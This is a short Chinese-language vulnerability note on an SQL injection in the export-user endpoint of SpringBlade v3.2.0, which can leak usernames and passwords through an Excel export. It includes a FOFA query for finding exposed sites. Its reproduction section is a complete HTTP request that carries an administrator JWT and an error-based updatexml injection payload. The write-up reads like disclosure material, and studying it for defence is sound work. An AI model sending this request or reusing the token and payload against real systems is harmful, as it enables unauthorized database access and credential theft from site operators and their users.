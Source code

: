 # SpringBlade export-user 存在 SQL注入漏洞

# 一、漏洞简介
SpringBlade v3.2.0 及之前版本框架后台 export-user 路径存在安全漏洞，攻击者利用该漏洞可通过组件customSqlSegment 进行SQL注 入攻击，攻击者可将用户名、密码等敏感信息通过 excel 导出。

# 二、影响版本
+ SpringBlade v3.2.0

# 三、资产测绘
+ fofa`body="[https://bladex.vip"](https://bladex.vip") && title!="融媒体中心后台管理系统" && title!="尚牛电竞运营后台"`
+ 特征

![1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71.png](./img/_NYAM1MaHtnpei3i/1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71-917073.png)

# 四、漏洞复现
```java
GET /api/blade-user/export-user?Blade-Auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJpc3MiOiJpc3N1c2VyIiwiYXVkIjoiYXVkaWVuY2UiLCJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwidXNlcl9uYW1lIjoiYWRtaW4iLCJuaWNrX25hbWUiOiLnrqHnkIblkZgiLCJ0b2tlbl90eXBlIjoiYWNjZXNzX3Rva2VuIiwiZGVwdF9pZCI6IjExMjM1OTg4MTM3Mzg2NzUyMDEiLCJhY2NvdW50IjoiYWRtaW4iLCJjbGllbnRfaWQiOiJzYWJlciJ9.UHWWVEc6oi6Z6_AC5_WcRrKS9fB3aYH7XZxL9_xH-yIoUNeBrFoylXjGEwRY3Dv7GJeFnl5ppu8eOS3YYFqdeQ&account&realName&1-updatexml(1,concat(0x7e,(select+@@version),0x7e),1)=1 HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1703260289968-ee5e0878-4c51-4107-a3a4-f5f6fe02e2f3.png](./img/_NYAM1MaHtnpei3i/1703260289968-ee5e0878-4c51-4107-a3a4-f5f6fe02e2f3-416322.png)



> 更新: 2024-12-13 17:10:57  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xgx1k1ortg8i6rp0>